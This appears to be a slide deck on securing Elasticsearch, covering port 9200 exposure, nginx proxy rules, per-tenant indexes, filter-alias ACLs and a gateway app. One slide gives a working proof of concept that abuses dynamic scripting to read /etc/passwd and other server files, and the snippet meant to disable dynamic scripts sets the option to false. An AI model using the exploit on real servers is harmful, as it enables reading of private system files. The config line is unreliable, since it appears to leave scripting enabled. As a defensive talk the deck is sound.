   ## Securing Elasticsearch

---

  ### Elasticsearch trusts you

  * There is no concept of a user
  * Out the box, systems that have access to port 9200 can basically do whatever they want
  * Do not allow direct access to port 9200

---

  ### Scripting

  * Elasticsearch provides robust scripting support
  * These scripts are run in a sandbox *as of 1.3.0*
  * [Remote code execution is possible](http://blog.liftsecurity.io/2013/11/30/elasticsearch-command-execution-using-script)

---

  ### How to read a file system using dynamic scripts with Python

  ```python
  read_file = (filename) ->
    """
    import java.io.File;
    import java.util.Scanner;
    new Scanner(new File("#{filename}")).useDelimiter("\\\\Z").next();
    """

  # This PoC assumes that there is at least one document stored in Elasticsearch, there are ways around that though
  $ ->
    payload = {
      "size": 1,
      "query": {
        "filtered": {
          "query": {
            "match_all": {
            }
          }
        }
      },
      "script_fields": {}
    }

    for filename in ["/etc/hosts", "/etc/passwd"]
      payload["script_fields"][filename] = {"script": read_file(filename)}

    $.getJSON "http://localhost:9200/_search?source=#{encodeURIComponent(JSON.stringify(payload))}&callback=?", (data) ->
      console.log(data)
      for hit in data["hits"]["hits"]
        for filename, contents of hit["fields"]
          document.write("<h2>#{filename}</h2>")
          for content in contents
            document.write("<pre>" + content + "</pre>")
          document.write("<hr>")
  ```

---

### Disabling dynamic scripts on older versions

```yaml
script.disable_dynamic: false
```

---

### Use preloaded scripts instead

```bash
$ cat config/scripts/scoring/recency_boost.groovy
(0.08 / ((3.16*10.power(-11)) * (now - doc['timestamp'].date.getMillis()).abs() + 0.05)) + 1.0
```

```json
{
  "script": "scoring_recency_boost",
  "params": {
    "now": 1386176910000
  }
}
 ```

---

### Segregate different tenants/users into separate indexes

* This allows you to create some high-level URL rules to eliminate cross-polination
* Some apis like multi-search, multi-get and bulk allow take indexes as URL parameters or in the request body
* Lock this down with `allow_explicit_index: false`

---

### Sample nginx proxy rules

```nginx
#
# Nginx proxy for Elasticsearch + Kibana
#
# In this setup, we are password protecting the saving of dashboards. You may
# wish to extend the password protection to all paths.
#
# Even though these paths are being called as the result of an ajax request, the
# browser will prompt for a username/password on the first request
#
# If you use this, you'll want to point config.js at http://FQDN:80/ instead of
# http://FQDN:9200
#
server {
  listen                *:80 ;

  server_name           kibana.myhost.org;
  access_log            /var/log/nginx/kibana.myhost.org.access.log;

  location / {
    root  /usr/share/kibana3;
    index  index.html  index.htm;
  }

  location ~ ^/_aliases$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/.*/_aliases$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/_nodes$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/.*/_search$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }
  location ~ ^/.*/_mapping {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
  }

  # Password protected end points
  location ~ ^/kibana-int/dashboard/.*$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
    limit_except GET {
      proxy_pass http://127.0.0.1:9200;
      auth_basic "Restricted";
      auth_basic_user_file /etc/nginx/conf.d/kibana.myhost.org.htpasswd;
    }
  }
  location ~ ^/kibana-int/temp.*$ {
    proxy_pass http://127.0.0.1:9200;
    proxy_read_timeout 90;
    limit_except GET {
      proxy_pass http://127.0.0.1:9200;
      auth_basic "Restricted";
      auth_basic_user_file /etc/nginx/conf.d/kibana.myhost.org.htpasswd;
    }
  }
}
```

---

### Include ACLs in document body

```json
{
  "title": "Elasticsearch in Action",
  "price": 34.99,
  "visible_to_groups": [
    "spantree",
    "strangeloop"
  ],
  "visible_to_users": [
    "george_smith",
    "jane_jones"
  ]
}
```

---

### Use filter aliases to enforce ACLs

```json
curl -XPOST 'http://localhost:9200/_aliases' -d '{
  "actions": [
    {
      "add": {
        "index": "books",
        "alias": "books_visible_to_group_spantree",
        "filter": {
          "term": { "visible_to_group": "spantree" }
        }
      }
    }
  ]
}'
```

---

### For more complex requirements, consider a middle tier gateway app

* When you need things like field-level access policies, consider writing a gateway app
* Prefer to use asynchronous, non-blocking frameworks like [Node.js](http://nodejs.org/), [Ratpack](http://www.ratpack.io/) or [Frank](https://github.com/panesofglass/frank).

---

### Pseudocode for a gateway app

```coffee
http.createServer (req, res) ->
  # Authenticate and get user context
  userContext = authenticateAndGetUserContext(req)
  if userContext
    http.request "#{esRoot}/{req.path}", (esResponse, json) ->
      if not userContext.shouldPriceBeVisible
        delete json.price
      res.writeHead esResponse.head
      res.write json
      res.end()
  else
    res.writeHead 401, 'Unauthorized access'
```

---

### (Completely speculative) future security features

* Dynamic scripts running in a sandbox?
* Pluggable authentication (via CAS, JAAS, etc)?
* Document-level security?
